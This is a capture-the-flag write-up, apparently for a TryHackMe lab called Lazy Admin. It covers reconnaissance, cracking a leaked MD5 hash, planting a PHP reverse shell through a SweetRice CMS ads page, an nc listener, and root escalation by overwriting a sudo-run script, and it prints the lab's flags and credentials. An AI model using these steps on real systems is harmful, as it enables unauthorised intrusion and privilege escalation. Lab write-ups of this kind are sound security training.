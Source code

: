 # Lazy Admin

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, hashcat, exploitdb

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.113.196

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: run specified scripts<br>
-sV: probe open ports to determine service/version info
```
nmap --script vuln -sV 10.10.113.196
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18)

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.113.196 -w /usr/share/dirb/wordlists/common.txt
```

![1.2](./imgs/1.2.png)

Page of Interest: /content

![1.3](./imgs/1.3.png)

Site using Basic-CMS SweetRice which is vulnerable to SQLi

Run dirb on /content
```
dirb http://10.10.113.196
```

![1.4](./imgs/1.4.png)

Pages of Interest: /content/as (login page), content/_themes/default/ (uploads), content/inc (uploads), content/js (index.html uses SweetRice.js)

Found file mysql_bakup_20191129023059-1.5.1.sql in http://10.10.113.196/content/inc/mysql_backup/

![1.5](./imgs/1.5.png)

**USERNAME**: manager<br>
PASSWORD HASH: 42f749ade7f9e195bf475f37a44cafcb

### 2. CRACK PASSWORD HASH

ID hash type
```
hash-identifier
```

![2.1](./imgs/2.1.png)

```
echo "42f749ade7f9e195bf475f37a44cafcb" > hash
john hash --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
```

![2.2](./imgs/2.2.png)

**PASSWORD**: Password123

![2.3](./imgs/2.3.png)

SweetRice version 1.5.1

### 3. REVERSE SHELL

Get php rev shell frpm https://pentestmonkey.net/tools/web-shells/php-reverse-shell and edit IP

![3.1](./imgs/3.1.png)

Paste rev shell code into new ads code section

![3.2](./imgs/3.2.png)

Start listener
```
nc -lnvp 1234
```

Go to http://10.10.113.196/content/inc/ads/EXPLOIT.php to get connection

![3.3](./imgs/3.3.png)

![3.4](./imgs/3.4.png)

**USER FLAG**: THM{63e5bce9271952aad1113b6f1ac28a07}

Found MySQL login

![3.5](./imgs/3.5.png)

**USERNAME**: rice<br>
**PASSWORD**: randompass

Check privileges
```
sudo -l
```

![3.6](./imgs/3.6.png)

Can run backup.pl as root

### 5. PRIVILEGE ESCALATION

![4.1](./imgs/4.1.png)

Don't have permission to edit backup.pl


backup.pl runs script in /etc/copy.sh which we have permission to edit

![4.2](./imgs/4.2.png)

```
echo "#!/bin/bash\nbash" > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

![4.3](./imgs/4.3.png)

**ROOT FLAG**: THM{6637f41d0177b6f37cb20d775124699f}